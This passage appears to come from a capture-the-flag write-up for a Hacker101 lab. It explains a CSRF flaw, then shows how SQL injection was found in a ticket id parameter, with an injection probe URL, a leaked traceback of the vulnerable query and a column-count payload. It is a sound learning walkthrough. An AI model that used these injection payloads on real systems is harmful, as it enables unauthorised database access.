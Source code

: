 ### 🔬 Technical Explanation: CSRF Vulnerability

**Cross-Site Request Forgery (CSRF)** occurs when a web application performs state-changing operations based on requests that don't properly verify the user's intent. In this case:

1. **Missing CSRF Tokens:** The application didn't implement CSRF tokens to verify legitimate requests
2. **GET-based State Changes:** User creation was performed via GET requests instead of POST
3. **No Origin Verification:** The application didn't validate the request origin
4. **Automatic Authentication:** Once a user was logged in, subsequent requests were automatically authenticated

This combination allowed an attacker to craft malicious links that would create user accounts when accessed by victims.

---

## 💉 Step 3: Second Flag - SQL Injection Discovery and Exploitation
While exploring the ticket viewing functionality, I discovered a SQL injection vulnerability in the ticket ID parameter.

**Initial Discovery:**
URL: `https://4feef034b61e89f2354562d08583af28.ctf.hacker101.com/ticket?id=1'`

This returned a detailed error message:
```
Traceback (most recent call last):
  File "./main.py", line 78, in ticket
    cur.execute('SELECT title, body, reply FROM tickets WHERE id=%s' % request.args['id'])
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

This error revealed:
- **Python Flask application** with MySQLdb connector
- **Direct string interpolation** in SQL queries (vulnerable to injection)
- **MariaDB database** backend
- **Detailed error messages** exposing internal application structure

---

## 🔍 Step 4: SQL Injection Exploitation - Manual Testing
I proceeded with manual SQL injection testing to enumerate the database structure systematically.

**Step 4.1: Column Count Enumeration**
```sql
?id=1 AND 1=1 ORDER BY 3
```
This query returned a 200 status code, confirming that the `tickets` table has at least 3 columns.
